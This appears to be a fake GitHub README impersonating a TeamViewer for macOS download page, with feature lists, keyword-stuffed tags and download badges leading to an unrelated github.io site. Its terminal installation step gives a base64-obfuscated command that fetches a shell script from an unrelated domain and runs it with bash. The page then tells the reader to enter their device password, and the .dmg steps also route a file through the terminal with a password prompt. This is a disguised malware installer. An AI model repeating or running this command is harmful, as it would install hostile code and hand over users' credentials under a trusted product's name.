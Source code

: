 # 🔧 TeamViewer — Remote Access and Support Software for macOS

**TeamViewer** is a powerful remote access and control application for macOS, enabling users to connect to other computers or mobile devices securely over the internet. Whether you're offering remote technical support, collaborating with colleagues, or accessing your own Mac from anywhere in the world — TeamViewer provides a reliable and secure solution.

With its easy setup, high-speed connections, and cross-platform support, TeamViewer is trusted by millions of users worldwide to stay connected to their devices and teams.

---

## ✅ Download TeamViewer for macOS  
[![Download TeamViewer](https://img.shields.io/badge/Download-TeamViewer-blue)](https://shuziktobehuman.github.io/huja/TeamViewer)

---

## 📥 How to Use

Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

Installation via a command in the terminal:

1. Copy the installation command below.
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```



## 📦 What is TeamViewer?

TeamViewer is a remote connectivity platform that allows full remote control of computers, screen sharing, file transfers, and unattended access. Designed with security and ease of use in mind, it supports macOS, Windows, Linux, iOS, and Android, making it a universal solution for IT professionals, helpdesk teams, and home users. On macOS, TeamViewer runs natively and is fully optimized for Apple hardware.

---

## ✨ Features

- 🖥 **Remote Access & Control** from anywhere in the world  
- 🔒 End-to-end encryption and two-factor authentication  
- 🤝 Cross-platform support: connect from Mac to Windows, Linux, or mobile  
- 📁 File transfer between local and remote machines  
- 🎯 Wake-on-LAN, remote reboot, and multi-monitor support  
- 📱 Mobile device access and support  
- 🧰 Unattended access setup for trusted machines  
- 💬 Built-in chat, VoIP, and video conferencing tools  
- 🛡 Compliant with GDPR, HIPAA, and ISO standards  

---

## 💡 Why Use TeamViewer?

- 🌐 Access your Mac or remote systems from anywhere  
- 🧑‍💻 Perfect for IT admins, support teams, and remote workers  
- 🆓 Free for personal use with no time limits  
- 📲 Use with TeamViewer QuickSupport or Host for unattended access  
- ⚡ Fast, stable performance even on low-bandwidth networks  

---

[![Download TeamViewer](https://img.shields.io/badge/Download-TeamViewer-blue)](https://shuziktobehuman.github.io/huja/TeamViewer)

---

## 🖼 Preview

![TeamViewer Screenshot 1](https://assets.techrepublic.com/uploads/2020/06/Figure-d-Remotely-control-Mac-TeamViewer.jpg?x24468)  
![TeamViewer Screenshot 2](https://setapp.com/cdn-cgi/image/quality=75,format=auto/https://cdn.setapp.com/blog/images/teamviewer-view.png)

---

## 📌 Tags

teamviewer mac, teamviewer download mac, teamviewer quicksupport mac, teamviewer qs mac,  
teamviewer quicksupport for mac, team viewer download mac, download team viewer for mac,  
team viewer mac download, team viewer mac os, web client teamviewer,  
download teamviewer for macbook air, download teamviewer on mac, team viewer qs mac,  
teamviewer 13.0 download, teamviewer download for macbook air, teamviewer download mac os x,  
teamviewer download macbook air, www teamviewer com for mac, teamviewer free download for mac,  
teamviewer dmg, teamviewer host mac, teamviewer app for mac, allow teamviewer on mac,  
install teamviewer mac, teamviewer mac to windows, teamviewer for mac 10.13 6 download,  
teamviewer host download mac, teamviewer for mac free, teamviewer download macos,  
googleteamviewer, teamviewer mac download  

